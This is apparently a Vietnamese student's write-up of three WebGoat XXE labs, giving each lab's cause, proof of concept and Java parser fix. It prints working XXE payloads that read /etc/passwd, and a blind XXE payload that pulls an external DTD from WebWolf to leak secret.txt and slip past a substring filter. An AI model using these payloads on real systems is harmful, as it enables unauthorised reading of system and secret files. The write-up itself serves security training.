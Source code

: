 # (A5) XXE

# XXE 4

## Nguyên nhân lỗi

- Lập trình viên không kiểm tra đầu vào của xml
- Không tắt tính năng Document Type Definition (DTD), khiến cho kẻ tấn công có thể injection vào XML bằng cách chèn DTD.

```java
// ...
protected Comment parseXml(String xml) throws XMLStreamException, JAXBException {
    var jc = JAXBContext.newInstance(Comment.class);
    var xif = XMLInputFactory.newInstance();

    if (webSession.isSecurityEnabled()) {
      xif.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
      xif.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
    }

    var xsr = xif.createXMLStreamReader(new StringReader(xml));

    var unmarshaller = jc.createUnmarshaller();
    return (Comment) unmarshaller.unmarshal(xsr);
  }
  // ...
```

## POC

- Bắt một request khi gửi Review

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image.png)

- Thêm DTD vào phần xml của request để có thể đọc được file /etc/passwd

```xml
<?xml version="1.0"?>
<!DOCTYPE text [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<comment>  
	<text>&payload;</text>
</comment>
```

- Gửi request đi

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%201.png)

## Cách khắc phục

- Kiểm tra lại input XML được gửi đến từ phía client để xem có bị tấn công XXE hay không
- Tắt tính năng DTD của XML

```java
protected Comment parseXml(String xml) throws XMLStreamException, JAXBException {
    var jc = JAXBContext.newInstance(Comment.class);
    var xif = XMLInputFactory.newInstance();

    xif.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
    xif.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
    xif.setProperty(XMLInputFactory.SUPPORT_DTD, false); // Disable DTDs entirely
    xif.setProperty("javax.xml.stream.isSupportingExternalEntities", false); // Prevent external entities

    var xsr = xif.createXMLStreamReader(new StringReader(xml));

    var unmarshaller = jc.createUnmarshaller();
    return (Comment) unmarshaller.unmarshal(xsr);
  }
```

# XXE 7

## Nguyên nhân lỗi

- Lập trình viên sử dụng cả 2 Content-Type là `application/json` và `application/xml` cho dữ liệu được gửi đến từ phía Client. Tuy nhiên khi xử lý Content-Type là **application/xml**, thì lập trình viên lại mắc phải lỗi như **XXE 1**

## POC

- Bắt một request khi gửi Review. Lúc này Content-Type là `application/json`

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%202.png)

- Đổi Content-Type thành `application/xml` , và Body thành xml như dưới

```xml
<?xml version="1.0"?>
<!DOCTYPE text [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<comment>  
	<text>&payload;</text>
</comment>
```

- Send request và bypass

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%203.png)

## Cách khắc phục

- Như của XXE 4

# XXE 11

## Nguyên nhân lỗi

- Nguyên nhân chính dẫn đến lỗi vẫn như 2 lab trên, tuy nhiên ở lab này có thêm logic để không hiển thị nội dung file cần đọc nếu như phát hiện “**nội dung của file cần đọc có chứa nội dung của comment”**
- Chính việc so sánh này dẫn đến việc hacker có thể chèn thêm một nội dung trong payload tấn công XXE để nó không là chuỗi con của file cần đọc và có thể bypass được logic này.

```java
Comment comment = comments.parseXml(commentStr);
if (fileContentsForUser.contains(comment.getText())) {
  comment.setText("Nice try, you need to send the file to WebWolf");
}
comments.addComment(comment, false);
```

## POC

- Tạo một file DTD có nội dung bên dưới và upload lên WebWolf để host. DTD này có nhiệm vụ là sẽ đọc nội dung file secret.txt và lưu trữ vào entity secret.

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%204.png)

- Bắt Request và injection payload XXE như bên dưới

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%205.png)

- Entity blindxxe được sử dụng để inject dtd ở phía trên đang được host ở WebWolf - Chính là nội dung file cần đọc đã được lưu trong entity `secret` .
- Lúc này chỉ cần chèn thêm một chuỗi bất kỳ để nội dung được gửi đến server sẽ không là chuỗi con của nội dung file `secret.txt`.

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [
<!ENTITY % blindxxe SYSTEM "http://localhost:9090/WebWolf/files/shr3wd/test4.dtd">
%blindxxe;
]>
<comment><text>secret &secret;</text></comment>
```

- Gửi request và reload lại trang để đọc được nội dung của file trong phần comment.

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image%206.png)